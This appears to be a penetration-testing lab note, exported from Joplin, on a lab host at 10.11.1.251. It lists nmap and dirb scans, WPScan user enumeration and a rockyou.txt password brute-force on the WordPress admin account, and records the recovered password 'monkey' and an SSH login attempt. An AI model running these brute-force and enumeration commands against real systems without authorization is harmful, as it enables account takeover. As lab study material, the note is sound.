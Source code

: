 Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.251
![e02386bfbd732d559460632148bd4802.png](:/2e5f9db642e94d6aaf4fe735089e45fc)

### sudo nmap -Pn -A -p- 10.11.1.251
![5d68b4cd71fc9b15014b6380bd62033c.png](:/f8c85169b5184eb79070dafff1954d80)

## UDP Ports
Did not scan

# dirb
Non-recursive scan:
### dirb http://10.11.1.251 -r
![9a7bc1c91d012c7a3730308e9e2c630a.png](:/77a3982497f84987b501af1fc9f1eee5)

Recursive scan for Wordpress site
### dirb http://10.11.1.251/wp
![cfbfcbab50f3294339e4ca1a71011ca8.png](:/a1529377ca9d4508920f290eab1a88c4)

# WPScan
Enumerate usernames. There is one username: admin
### wpscan --url http://10.11.1.251/wp --enumerate u
![acee3a14a95b8474852aac3a7de90e98.png](:/9b05d183258844faa0be02043a9e8990)

Dictionary password attack on username: admin using rockyou.txt
### wpscan --url http://10.11.1.251/wp -U admin -P /usr/share/wordlists/rockyou.txt
![f7d4e444a6b28fc74f1501471545109d.png](:/e5ccbad6f0604df2811eac1a817b9698)

Check that the login admin:monkey works
![01803855057a540f211f94ed634a8db7.png](:/d403119ca8da4f659fb733f20c833e6f)

# SSH
Attempt to login with credentials sean:monkey
![cee31872b5317dc394a94f63773dd2ab.png](:/84ca31526b75481390b923b268682c18)








id: e5121abb784e4c828ab8d21966e7a5aa
parent_id: 4426326cd74d41c0bf23a332b81db60d
created_time: 2020-08-24T20:30:26.675Z
updated_time: 2020-08-24T21:52:03.770Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-24T20:30:26.675Z
user_updated_time: 2020-08-24T21:52:03.770Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1